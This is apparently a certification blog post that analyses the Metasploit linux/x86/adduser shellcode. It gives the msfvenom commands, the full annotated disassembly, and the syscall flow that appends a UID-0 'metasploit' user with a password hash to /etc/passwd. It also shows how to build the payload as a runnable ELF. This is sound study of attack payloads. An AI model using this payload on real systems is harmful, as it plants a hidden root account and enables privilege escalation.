



# Analysis of three payloads of my choice - part 3


##  linux/x86/adduser

I decided to analyze as third shellcode linux/x86/adduser.
Firstly, let's have a look to the basic options for the shellcode generation.

```
> msfvenom -p linux/x86/adduser  --list-options

Options for payload/linux/x86/adduser:
=========================


       Name: Linux Add User
     Module: payload/linux/x86/adduser
   Platform: Linux
       Arch: x86
Needs Admin: Yes
 Total size: 97
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    vlad902 <vlad902@gmail.com>
    spoonm <spoonm@no$email.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create

Description:
  Create a new user with UID 0
```

Let's generate the payload and disassemble it with ndisasm.

```
> msfvenom -p linux/x86/adduser -f raw | ndisasm -b32 -

Payload size: 97 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

Compared to the other shellcode analysed this is a bit larger; in any case let's stick to the statical analysis first and then verify the assumptions running it.

Let's analyze it statically commenting each instruction.

```
00000000  31C9              xor ecx,ecx           ; zeroing ecx register
00000002  89CB              mov ebx,ecx           ; zeroing ebx register
00000004  6A46              push byte +0x46       ; push on the stack the value 0x00000046 (70), that is the syscall number for setreuid (/usr/include/i386-linux-gnu/asm/unistd_32.h)
00000006  58                pop eax               ; retrieve the syscall number from the stack and place it in the eax register
00000007  CD80              int 0x80              ; interrupt to call the setreuid sycall with parameter sets to 0.
00000009  6A05              push byte +0x5        ; push on the stack the value 0x00000005 (5), that is the syscall number for open (/usr/include/i386-linux-gnu/asm/unistd_32.h)
0000000B  58                pop eax               ; retrieve the syscall number from the stack and place it in the eax register
0000000C  31C9              xor ecx,ecx           ; zeroing ecx register
0000000E  51                push ecx              ; push on the stack the value 0x00000000 that acts as end of string
0000000F  6873737764        push dword 0x64777373 ; push on the stack dwss
00000014  682F2F7061        push dword 0x61702f2f ; push on the stack ap// the double slash is for alignment, it won't impact the correct execution
00000019  682F657463        push dword 0x6374652f ; push on the stack cte/
0000001E  89E3              mov ebx,esp           ; move the pointer to /etc/passwd in ebx register
00000020  41                inc ecx               ; set ecx to 0x00000001 which means O_WRONLY (open for writing only) as stated in sys/fcntl.h
00000021  B504              mov ch,0x4            ; set ecx to 0x00000401 which means O_NONBLOCK and O_WRONLY as stated in sys/fcntl.h
00000023  CD80              int 0x80              ; interrupt to call the open sycall with parameter sets to /etc/passwd, 262145
00000025  93                xchg eax,ebx          ; swap the value of the register eax and ebx
00000026  E828000000        call 0x53             ; set the EIP address to 0x53 and push 0000002B on the stack (trick to have access to a string without having a disposal a data section)
0000002B  6D                insd                  ; m
0000002C  657461            gs jz 0x90            ; eta
0000002F  7370              jnc 0xa1              ; sp
00000031  6C                insb                  ; l
00000032  6F                outsd                 ; o
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a ; it:Az/dI
0000003B  736A              jnc 0xa7              ; sj
0000003D  3470              xor al,0x70           ; 4p
0000003F  3449              xor al,0x49           ; 4l
00000041  52                push edx              ; R
00000042  633A              arpl [edx],di         ; c:
00000044  303A              xor [edx],bh          ; 0:
00000046  303A              xor [edx],bh          ; 0:
00000048  3A2F              cmp ch,[edi]          ; :/
0000004A  3A2F              cmp ch,[edi]          ; :/
0000004C  62696E            bound ebp,[ecx+0x6e]  ; bin
0000004F  2F                das                   ; /
00000050  7368              jnc 0xba              ; sh
00000052  0A598B            or bl,[ecx-0x75]      ; LF (line feed) - pop ecx - the next instructions are wrong, the decompiler failed. 8B51FC stands for mov edx,[ecx-0x4] that has the goal of setting the size of the string located on the stack to write
00000055  51                push ecx              ; wrong decompilation
00000056  FC                cld                   ; wrong decompilation
00000057  6A04              push byte +0x4        ; push on the stack the value 0x00000004 (4), that is the syscall number for write (/usr/include/i386-linux-gnu/asm/unistd_32.h)
00000059  58                pop eax               ; retrieve the syscall number from the stack and place it in the eax register
0000005A  CD80              int 0x80              ; interrupt to call the write sycall
0000005C  6A01              push byte +0x1        ; push on the stack the value 0x00000001 (1), that is the syscall number for exit (/usr/include/i386-linux-gnu/asm/unistd_32.h)
0000005E  58                pop eax               ; retrieve the syscall number from the stack and place it in the eax register
0000005F  CD80              int 0x80              ; interrupt to call the exit sycall
```
The following are the signatures of the syscalls executed.

```
> man 2 setreuid
set real and/or effective user
int setreuid(uid_t ruid, uid_t euid);

> man 2 open
open a file
int open(const char *pathname, int flags);

> man 2 write
write to a file descriptor
ssize_t write(int fd, const void *buf, size_t count);

> man 2 exit
terminate the calling process
void _exit(int status);
```

Generally speaking, the operative flow expected is:

* Execute the **setreuid** syscall with the goal of setting the process' effective user ID;
* Execute the **open** syscall in writing mode on file /etc/passwd
* Execute the **write** syscall on the file descriptor returned from the open syscall and appending the line *metasploit:Az/dIsj4p4lRc:0:0::/:/bin/sh* 
* Execute the **exit** syscall

That said, let's understand what is the status of the registers expected at the moment of the execution of each syscall.

**setreuid**

* **eax** register contains the syscall number 0x00000046 (70)
* **ebx** register contains the real user id 0x00000000 (0), which means root
* **ecx** register contains the effective user id 0x00000000 (0), which means root

**open**

* **eax** register contains the syscall number *0x00000005* (5)
* **ebx** register contains the pointer to the stack where the file name */etc/passwd\0* is located
* **ecx** register contains the value *0x0000401* which means *O_NONBLOCK* and *O_WRONLY* as stated in sys/fcntl.h

**write**

* **eax** register contains the syscall number *0x00000004* (4)
* **ebx** register contains the *file descriptor* returned from the open syscall previously executed
* **ecx** register contains the pointer to the stack where the string *metasploit:Az/dIsj4p4lRc:0:0::/:/bin/sh + line feed (0xa)* is located
* **edx** register contains the size of the string to write, that is 0x28 (40)

**exit**

* *eax* register contains the syscall number *0x00000001* (1)
* *ebx* register contains the status code, that it is not explicitly set, in fact it still contains the fd value.

Let's run the binary using gdb to verify our assumptions. The most direct way to do so, without having to write a c program where the shellcode is executed, is using msfvenom and generate directly an elf binary:

```
msfvenom -p linux/x86/adduser -f elf -o add_user-elf
```

Now, let's run the binary using gdb.


I stepped till the execution of the **setreuid** syscall to check the status of the registers.


The assumptions looks to be respected. Let's go on and step till the execution of the **open** syscall.



The assumptions looks to be respected. Let's go on and step till the execution of the **write** syscall.


The assumptions looks to be respected. Let's go on and step till the execution of the **exit** syscall.



The assumptions looks to be respected. Let's have a look to the exit code.



Great! Analysis completed.

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*
